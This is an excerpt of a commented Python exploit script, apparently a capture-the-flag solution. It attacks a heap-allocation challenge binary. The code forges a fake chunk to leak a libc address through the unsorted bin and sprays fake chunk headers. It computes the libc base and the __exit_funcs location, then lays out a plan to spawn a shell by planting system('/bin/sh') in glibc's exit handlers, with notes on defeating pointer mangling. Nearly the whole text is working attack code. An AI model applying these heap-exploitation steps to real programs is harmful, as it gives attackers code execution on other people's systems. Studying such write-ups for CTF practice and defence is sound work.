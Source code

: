 ```python  

# Libc leak  
# To leak a libc address, we need to put a chunk into the unsorted binary  
# Unfortunately, we can only allocate up to 100 bytes, which is too short  
# and will be put into the tcache instead  
# Therefore, we create a fake chunk instead, which we will free manually.  
# Glibc checks whether the chunk looks "sane", e.g. if the next chunk (ptr +
chunk_size)  
# has the prev_in_use bit set (lowest bit) and whether the previous size
matches  
# (at ptr + chunk_size - 8)  
# We allocate our fake chunk of size 0x420 (1056 bytes, just enough to get
into the unsorted bin)  
add(b'7' * 8 + p64(0x420 + 1))  
# Now, we need to get to the end of our fake chunk to make glibc happy  
# 6 Chunks in between are enough (just tried in GDB, not used math for this
one lol)  
for i in range(6):  
   add(bytes([i]) * 100)  
# In this allocation is the end of our faked chunk.  
# We need to write the previous chunk's size (0x420) followed by a valid chunk
header (e.g. 0x21)  
# It is important that the prev_in_use_bit is set (e.g. 0x20 would not work!)  
# As I am too lazy to calculate the correct offset, we just do heap spraying
:P  
add((p64(0x420) + p64(0x21)) * 6)  
# If we free this chunk, a pointer to glibc's main arena can be read from the
chunk's fwd and bwd pointer  
free(heap + 0x310)

# Careful! Heap allocations can be served from the chunk in the unsorted bin,
shrinking it from the beginning of said chunk.  
# Unfortunately, our read primitive allocates, so that after the allocations
the fwd and bwd pointer are at offset 0x3a0  
# instead of 0x310 (I also refused to use math for this one and did it in GDB)  
libc.address = u64(read(heap + 0x3a0, 8)) - 0x219ce0  
__exit_funcs = libc.address + 0x219838  
log.info(f'libc         @{hex(libc.address)}')  
log.info(f'__exit_funcs @{hex(__exit_funcs)}')

# We need to pop a shell after all. So what do we do next?  
# Normally I'd just overwrite `__free_hook` with `system`, but glibc 2.34
removed the malloc hooks...  
# Now, we have to use the __exit_funcs array which is way more complicated >:(  
# I used this blogpost to figure it out:
https://binholic.blogspot.com/2017/05/notes-on-abusing-exit-handlers.html  
# To summarize it, we have to create exit_funcs_list on the heap and put the
`system` function there with "/bin/sh\x00"  
# as an argument (using the ex_cxa function type)  
# It is advisable to read the source code to understand how and why:  
# Here is the type definition:
https://elixir.bootlin.com/glibc/glibc-2.35/source/stdlib/exit.h  
# And here how the handlers are executed:
https://elixir.bootlin.com/glibc/glibc-2.35/source/stdlib/exit.c

# But most importantly, glibc uses pointer mangling to "encrypt" stored
function pointers  
# The reasoning is that it makes it harder to write exploits (it really does)  
# How does it work?  
#   pointer encryption: rotateleft(ptr ^ key, 0x11)  
#   pointer decryption: rotateright(ptr, 0x11) ^ key  
# where key is a random value set at program start (similar to the stack
canary)  
```
